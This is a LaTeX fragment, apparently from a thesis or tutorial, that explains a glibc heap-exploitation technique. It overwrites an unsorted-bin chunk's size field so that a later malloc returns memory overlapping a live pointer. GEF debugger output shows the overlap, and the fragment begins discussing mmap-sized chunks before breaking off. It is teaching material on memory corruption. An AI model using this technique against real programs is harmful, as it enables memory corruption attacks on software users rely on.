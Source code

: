\documentclass{masterthesis}
\newcommand*\ub{unsorted bins}
\begin{document}
In the next step, like we did before, We have to change the chunk size by overflow :
\begin{lstlisting}[language=c,frame=tlrb]
int evil_chunk_size = 0x181;
int evil_region_size = 0x180 - 8;
*(p2-1) = evil_chunk_size;
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
  [0x0000555555559010   31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31  1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
  [0x0000555555559110   78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00  x.......x.......]

unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
  Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 \end{lstlisting}
 
As you remember, currently , p2 located at the \ub{} , also, we change the size of p2, so, when the heap manager receives an allocation request it return p2, as the result, it have overlap with previous chunks :
\begin{lstlisting}[language=c,frame=tlrb]
p4 = malloc(evil_region_size);
 \end{lstlisting}
\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
  [0x0000555555559010   31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31  1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
  [0x0000555555559110   78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00  x.......x.......]
 \end{lstlisting}
\begin{lstlisting}[frame=tlrb]   
gef p p4
$11 = (intptr_t *) 0x555555559110
gef p p2
$12 = (intptr_t *) 0x555555559110
gef p p1
$13 = (intptr_t *) 0x555555559010
gef p p3
$14 = (intptr_t *) 0x555555559210
 \end{lstlisting}
 
 
As you can see, p3 is not in the list of chunks anymore, however, the pointer still accessible inside the application.Now the p3 and p4 have overlap, so , write data on one of them could overwrite the other one data
What happened if the chunk size was so big? As we mentioned, the system can use mmap in this scenario. Take consider the following code : 
\begin{lstlisting}[language=c,frame=tlrb]
int* ptr1 = malloc(0x10);
long long* top_ptr = malloc(0x100000);
long long* mmap_chunk_2 = malloc(0x100000);
long long* mmap_chunk_3 = malloc(0x100000);
\end{lstlisting}
Heap layout after allocation 
\end{document}
